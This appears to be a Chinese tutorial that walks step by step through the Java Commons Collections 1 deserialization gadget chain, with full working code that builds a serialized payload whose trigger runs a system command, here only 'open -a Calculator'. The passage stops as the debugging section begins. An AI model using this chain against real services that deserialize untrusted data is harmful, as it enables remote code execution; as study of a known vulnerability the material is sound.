# Java安全漫谈-CC1篇

## 环境准备

- 这条链在 Java 8u71 以后就不能利用了，这里使用的环境是 Java8u66



- 另外需要取消勾选此处两个`Enable`
> IDEA中Debug时调试器会调用一些toString方法，从而造成非预期的命令执行



## 前置知识

### Transformer
Transformer 是一个接口，只有一个`transformer()`方法

### ChainedTransformer
`ChainedTransformer`是实现了`transformer`接口的类，该类会对传入的`Transformer`数组进行**链式调用**。即将前一个`Transformer`的执行结果当作参数传递到下一个，直至全部`Transformer`执行完毕后返回



### ConstantTransformer
`ConstantTransformer`也是实现了`Transform`接口的类，它的作用是**直接返回传入的对象**，这里将该类作为调用链的开端



- 示例：这里传入的是`Runtime.getRuntime()`，所以将会返回`Runtime`对象

```java
public class TestCC {
    public static void main(String[] args) {
        /* ConstantTransformer */
        ConstantTransformer ct = new ConstantTransformer(Runtime.class);
        Object transform = ct.transform(1);
        System.out.println(transform);
    }
}

// class java.lang.Runtime

```

### InvokerTransformer
`InvokerTransformer`也是实现了`Transformer`接口的类，该类的作用是**通过反射调用输入对象的指定方法**，并将调用结果返回，这个正是执行恶意命令的核心类



- 示例：以`Runtime.getRuntime().exec(String command)`为例，该方法接收一个`String`类型的参数

```java
package deserialization;

import org.apache.commons.collections.functors.InvokerTransformer;

import java.io.IOException;

public class TestCC {
    public static void main(String[] args) throws IOException {
     /* InvokerTransformer
      * Runtime.getRuntime().exec(String command)
      */
    // 初始化时需要传入待调用的方法exec、参数类型String.class，以及待执行的命令command
        InvokerTransformer exec = new InvokerTransformer(
            "exec",
            new Class[]{String.class},
            new Object[]{
                "open -a Calculator"
            }
        );
     // 调用transform()方法时传入对象  
        exec.transform(Runtime.getRuntime());
    }
}

```

### Java动态代理
> Java 动态代理，我的理解就是可以对一个实例对象中的方法进行监听（实例在调用方法时会触发`invoke()`方法），并且在特定方法被调用时，触发一些自定义的处理操作。

创建一个处理器类，该类将接收一个`Map`对象并进行处理。这里实例在调用方法时会输出方法名，并且在调用`Map`对象的`get()`方法时，返回特定字符串

```java
package deserialization;

import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.util.Map;

public class PorxyHandler implements InvocationHandler {
    protected Map map;
    public PorxyHandler(Map map) {
        this.map = map;
    }

    @Override
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
        // 当前触发的方法
        String methodName = method.getName();
        System.out.println("Hooking: " + methodName);

        if (methodName.compareTo("get") == 0) {
            return "Hacked Object";
        }

        return method.invoke(this.map, args);
    }

}

```

向处理器类传入一个`HashMap`，并使用代理类`Proxy`将其实例化。当该实例对象调用方法，将触发处理器类`PorxyHandler#invoke()`方法

```java
package deserialization;

import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class ProxyApp {
    public static void main(String[] args) {
        PorxyHandler porxyHandler = new PorxyHandler(new HashMap());

        // 实例化代理类
        Map proxyMap = (Map) Proxy.newProxyInstance(
            Map.class.getClassLoader(),
            new Class[] {Map.class},
            porxyHandler
        );

        proxyMap.put("hello", "world");

        String res = (String) proxyMap.get("hello");
        System.out.println(res);

    }
}

/* 输出结果:
Hooking: put
Hooking: get
Hacked Object

*/
```



## 利用链分析
> 整条利用链可以分为两部分，前半部分是构造`transformers`链，后半部分是调用其`transformer`方法

利用链：

```java
/*
Gadget chain:
  ObjectInputStream.readObject()
    AnnotationInvocationHandler.readObject()
      Map(Proxy).entrySet()
        AnnotationInvocationHandler.invoke()
          LazyMap.get()
            ChainedTransformer.transform()
              ConstantTransformer.transform()
              InvokerTransformer.transform()
                Method.invoke()
                  Class.getMethod()
              InvokerTransformer.transform()
                Method.invoke()
                  Runtime.getRuntime()
              InvokerTransformer.transform()
                Method.invoke()
                  Runtime.exec()

Requires:
  commons-collections
*/

```
完整代码：

```java
public InvocationHandler getObject(final String command) throws Exception {
    final String[] execArgs = new String[] { command };
    // inert chain for setup
    final Transformer transformerChain = new ChainedTransformer(
        new Transformer[]{ new ConstantTransformer(1) }
    );
  
    // real chain for after setup
    final Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer(
          "getMethod", 
          new Class[] {String.class, Class[].class }, 
          new Object[] { "getRuntime", new Class[0] }
        ),
      new InvokerTransformer(
        "invoke", 
        new Class[] {Object.class, Object[].class }, 
        new Object[] {null, new Object[0] }
      ),
      new InvokerTransformer(
        "exec",
        new Class[] { String.class }, 
        execArgs
      ),
        new ConstantTransformer(1) 
    };

    final Map innerMap = new HashMap();

    final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

    final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);

    final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);

    Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

    return handler;
}

```

### 构造transformers
综合前面的前置知识，可以知道前半部分先构造了一个`transformers`链

```java
/* Transformer[]
    Runtime.getRuntime().exec("xxx");
    
    Runtime.class.getMethod("exec", String.class)
     .invoke(
        Runtime.class.getMethod("getRuntime")
            .invoke(Runtime.class),
        "open -a Calculator"
	);
*/
final Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer(
        "getMethod",
        new Class[] { String.class, Class[].class },
        new Object[] { "getRuntime", new Class[0] }
    ),
    new InvokerTransformer(
        "invoke",
        new Class[] { Object.class, Object[].class },
        new Object[] { null, new Object[0] }
    ),
    new InvokerTransformer(
        "exec",
        new Class[] { String.class },
        new String[] { "open -a Calculator" }
    ),
    new ConstantTransformer(1)
};

```

### 寻找漏洞触发点
> 前面只是构造了 transformers 链，还需要找到一个`transform()`方法将其触发

接着下面创建了一个`HashMap`实例，然后调用`LazyMap.decorate()`方法，跟进后发现调用了`LazyMap`的构造函数，传入的`Transformer`赋值给`this.factory`。并且该类的构造函数为`proteccted`，因此不能直接调用。



在该类中搜索`this.factory`，发现在`LazyMap#get()`方法中触发了`transform()`，前提是传入的`key`不在 Map 中



需要注意的是，这里调用`LazyMap.decorate()`方法时所传入的参数类型是`Map`和`Transformer`对象，而不能直接传入前面所构造的`Transformer[]`数组，因此这里还构造了一个`ChainedTransformer`对象。



这里构造对象时，作者在创建了一个新的`Transformer[]`对象传入，而不是直接传入所构造的`transformers`调用链。**目的是为了避免本地调试时触发命令执行**
> P牛在《Java安全漫谈》中也有相应的解释：
> 为了避免本地调试时触发命令执⾏，我构造 LazyMap 的时候先⽤了⼀个⼈畜⽆害的 fakeTransformers 对象，等最后要⽣成 Payload 的时候，再把真正的 transformers 替换进去。

如果直接传入`transformers`，并调用`LazyMap#get()`一个不存在的`key`。这样运行后就会直接触发恶意代码，弹出计算器。示例如下：

```java
package deserialization;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.util.HashMap;
import java.util.Map;

public class TestCC {
    public static void main(String[] args) throws Exception {
        
        // final Transformer transformerChain = new ChainedTransformer(
        //     new Transformer[]{ new ConstantTransformer(1) }
        // );
        
        final Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer(
                "getMethod",
                new Class[] { String.class, Class[].class },
                new Object[] { "getRuntime", new Class[0] }
            ),
            new InvokerTransformer(
                "invoke",
                new Class[] { Object.class, Object[].class },
                new Object[] { null, new Object[0] }
            ),
            new InvokerTransformer(
                "exec",
                new Class[] { String.class },
                new String[] { "open -a Calculator" }
            ),
            new ConstantTransformer(1)
        };

        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
        lazyMap.get("test");
    }
}

```

### AnnotationInvocationHandler
> 上⾯的代码执⾏示例代码只是⼀个⽤来在本地测试的类。在实际反序列化中，需要找到一个类，**在它进行反序列化时，**`**readObject()**`**中也存在**`**get()**`**方法**

继续往下看，跟进`Gadgets`类后可以看到，这里使用`sun.reflect.annotation.AnnotationInvocationHandler`创建了实例





继续跟进`sun.reflect.annotation.AnnotationInvocationHandler`，发现该类中的`invoke()`方法触发了`get()`



但`readObject()`和`invoke()`中的`get()`方法有什么联系呢，或者说应该如何才能触发`invoke()`方法呢，此时就需要用到了 Java 动态代理
这里的`AnnotationInvocationHandler`其实继承了`InvocationHandler`，也就是说用`AnnotationInvocationHandler`对`LazyMap`对象进行代理，那么在`readObject`的时候，只要调用任意方法，就会进入到`AnnotationInvocationHandler#invoke`方法中，进而触发我们的`LazyMap#get`

### 最后的反射
上文也说了，为了避免本地调试时触发命令执行，作者在构造了`ChainedTransformer`对象时，创建了一个新的`Transformer[]`对象传入，但是这个对象并没有恶意代码。所以这里还需要通过反射将真正恶意的`transformers`链替换进去：



## 利用链构造
综上所述：

- 构造`transformers`，主要通过`transformer`调用链实现反射触发恶意代码

```java
final Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer(
        "getMethod",
        new Class[] { String.class, Class[].class },
        new Object[] { "getRuntime", new Class[0] }
    ),
    new InvokerTransformer(
        "invoke",
        new Class[] { Object.class, Object[].class },
        new Object[] { null, new Object[0] }
    ),
    new InvokerTransformer(
        "exec",
        new Class[] { String.class },
        new String[] { "open -a Calculator" }
    ),
    new ConstantTransformer(1)
};

Transformer transformerChain = new ChainedTransformer(transformers);

```

- 创建`LazyMap`

```java
Map innerMap = new HashMap();
Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

```

- 实例化代理对象。这里不能直接`new`对象，需要通过反射获取`AnnotationInvocationHandler`构造函数进行构造。

```java
// 通过反射获取 AnnotationInvocationHandler 构造函数
Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> annoConstructor = clazz.getDeclaredConstructor(Class.class, Map.class);
annoConstructor.setAccessible(true);

// 利用构造函数实例化,创建与 lazyMap 关联的 InvocationHandler
InvocationHandler lazyMapHandler = (InvocationHandler) annoConstructor.newInstance(Retention.class, lazyMap);

// 实例化代理对象,proxyMap 调用的方法都会被转发 InvocationHandler#invoke 方法
Map proxyMap = (Map) Proxy.newProxyInstance(
    Map.class.getClassLoader(),
    new Class[]{Map.class},
    lazyMapHandler
);

```
这里的`proxyMap`类型是`Map`，不能直接对其进行序列化，因为入口点是 `AnnotationInvocationHandler#readObject`，所以需要用`AnnotationInvocationHandler`对这个`proxyMap`进行包裹

```java
// 使用 AnnotationInvocationHandler 对 proxyMap 重新包裹
InvocationHandler proxyMapHandler = (InvocationHandler) annoConstructor.newInstance(Retention.class, proxyMap);

```

需要分清上面`lazyMapHandler`和`proxyMapHandler`两个`Handler`：
第一个`lazyMapHandler`是用于实例化代理对象，当调用代理对象的方法时会被转发到`invoke()`，从而触发`LazyMap`中的`get()`方法
第二个`proxyMapHandler`是为了执行代理类`proxyMap`的任意方法，从而触发第一处的`invoke()`方法

完整代码如下：

```java
package deserialization;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;

public class DemoCC1 {
    public static void main(String[] args) throws Exception {
        final Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer(
                "getMethod",
                new Class[] { String.class, Class[].class },
                new Object[] { "getRuntime", new Class[0] }
            ),
            new InvokerTransformer(
                "invoke",
                new Class[] { Object.class, Object[].class },
                new Object[] { null, new Object[0] }
            ),
            new InvokerTransformer(
                "exec",
                new Class[] { String.class },
                new String[] { "open -a Calculator" }
            ),
            new ConstantTransformer(1)
        };

        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
        // lazyMap.get("test");

        // 通过反射获取 AnnotationInvocationHandler 构造函数
        Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> annoConstructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        annoConstructor.setAccessible(true);

        // 利用构造函数实例化,创建与 lazyMap 关联的 InvocationHandler
        InvocationHandler lazyMapHandler = (InvocationHandler) annoConstructor.newInstance(Retention.class, lazyMap);

        // 实例化代理对象,proxyMap 调用的方法都会被转发 InvocationHandler#invoke 方法
        Map proxyMap = (Map) Proxy.newProxyInstance(
            Map.class.getClassLoader(),
            new Class[]{Map.class},
            lazyMapHandler
        );

        // 使用 AnnotationInvocationHandler 对 proxyMap 重新包裹
        InvocationHandler proxyMapHandler = (InvocationHandler) annoConstructor.newInstance(Retention.class, proxyMap);

        // Serialization
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(proxyMapHandler);
        oos.close();
        baos.close();

        // Deserialization
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        ois.readObject();
        ois.close();

    }
}

```

## 反序列化触发
这里在`AnnotationInvocationHandle#readObject()`中打下断点开始调试，此处的`this.memberValues`其实就是`LazyMap`，而前面用`AnnotationInvocationHandler`对`LazyMap`对象进行代理。也就是说只要调用任意方法，就会进入到`AnnotationInvocationHandler#invoke()`方法中

